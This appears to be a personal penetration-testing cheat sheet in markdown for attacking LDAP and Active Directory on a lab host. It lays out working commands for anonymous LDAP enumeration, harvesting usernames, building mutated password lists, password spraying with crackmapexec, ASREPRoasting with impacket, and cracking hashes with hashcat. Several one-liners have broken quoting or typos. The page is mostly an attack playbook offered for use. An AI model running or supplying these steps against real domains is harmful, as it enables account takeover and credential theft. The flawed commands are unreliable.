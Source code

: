 # LDAP

Port: 389
IP: 10.10.10.10

Ldap has decent attack surface.

## Usages

`ldapsearch -h 10.10.10.10 -x  -s base namingcontext`
-x: basic authentication
-s: scope
base: `namingcontext`

```Output
dn:
namingcontext: DC=nullbrain,DC=local
namingcontext: CN=configuration,DC=nullbrain,DC=local
```


`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" > ldap-anonymous.out`
or,
`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" '(objectClass=person)'`

```Output
Important informations like
	Creationdate: when created
	Email: email
	Login success: count
```


Windows usage AD timestamp could be converted to human readable at https://www.epochconverter.com/

### passwordspray

1. `STOP`  & `check` if `passwordspray` is going to lock accounts.
	- `crackmapexec smb 10.10.10.10 --pass-pol`
	Or,
	- with password policy in order to do null authentication attempt
		- NOTE: This doesnot work with vanila 2016+
		`crackmapexec smb 10.10.10.10 --pass-pol -u'' -p''`
		Check for account lockout threshold.
	Or,
	- `enum4linux 10.10.10.10`
1. Generate list of username
	`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" '(objectClass=person) SAMAccountName | grep sAMAccountName awk {}'print $2'}`
	- include: user account (none computer/exchange)
	Or,
	- `rpcclient -U '' 10.10.10.10`
		- `enumdomusers`
			- `queryuser ridxxx`
	- store all at `userlist.out`
1. Create password list. (`pwlist.txt`)
	- Include:
		- months are nice thing to brute-force (`January`...`December`)
		- `password`, `p@ssw0rd`, secret, season (autumn, winter, summer)
		- servername, vendor name etc.
		- `years`, `!`: `for i in $(cat pwlist.txt); do echo $i; echo ${i}2019; echo ${i}2020; echo ${i}\!; done`
		- mutate passwords: `hashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule`
		- Toggle various upper cases: `-r /usr/share/hashcat/rules/toggels1.txt
		- Truncate duplicates & greater than 7: `| sort -u | awk 'length($0)' > 7`
1. Fire
	- Run in TMUX or some session as it is going to take some time.
	- `crackmapexec smb 10.10.10.10 -u userlist.out -p pwlist.txt`
1. ASREPRoast with [impacket](https://github.com/SecureAuthCorp/impacket) 
	- `GetNPUsers.py`
		- For users that do not require kerberos preauthentication.
			- Below command would give hash upon success using that we can crack the hash using correct id.
			- `./GetNPUsers.py dc-ip 10.10.10.10 -request 'nullbrain.local/' -format hashcat`
	- Check hash type
		- `./hashcat --example-hashes | grep -i <hash_string>`
		- ensure and get id <18200>
	- crack the hash
		- `./hashcat -m <18200> hashes/my-stored-hash /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule`
			- rules for cracking, good to start with `InsidePro-PasswordsPro.rule`
3. Check if compromised user from above has access.
	- `crackmapexec smb 10.10.10.10 -u <username> -p <password>` , Or,
	- `crackmapexec smb 10.10.10.10 -u <username> -p <password> --shares 
	- Pawned?
		- if Not
			- Finding Passwords in SYSVOL & Exploiting Group Policy Preferences [winPEAS checks group policy] (https://github.com/nullbr41n/nullbrain/tree/main/active-directory/winrm.md)